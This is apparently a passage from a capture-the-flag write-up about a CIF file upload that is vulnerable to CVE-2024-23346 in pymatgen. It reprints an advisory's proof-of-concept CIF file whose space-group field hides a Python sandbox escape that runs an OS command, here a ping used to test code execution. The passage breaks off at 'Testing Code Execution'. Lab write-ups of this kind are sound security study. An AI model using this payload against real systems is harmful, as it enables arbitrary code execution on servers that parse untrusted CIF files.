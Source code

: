 ![Dashboard](./images/2.png)

**Observation**: Possible to upload a **CIF file**

According to the summary of the box, it is vulnerable to CIF file parsing exploits. The vulnerability exists in the `pymatgen` library (CVE-2024-23346).

The following PoC is used from: https://github.com/advisories/GHSA-vgv8-5cpj-qj2f

```
data_5yOhtAoR
_audit_creation_date            2018-06-08
_audit_creation_method          "Pymatgen CIF Parser Arbitrary Code Execution Exploit"

loop_
_parent_propagation_vector.id
_parent_propagation_vector.kxkykz
k1 [0 0 0]

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("ping -c 1 <local ip addr>");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "
```

#### Testing Code Execution
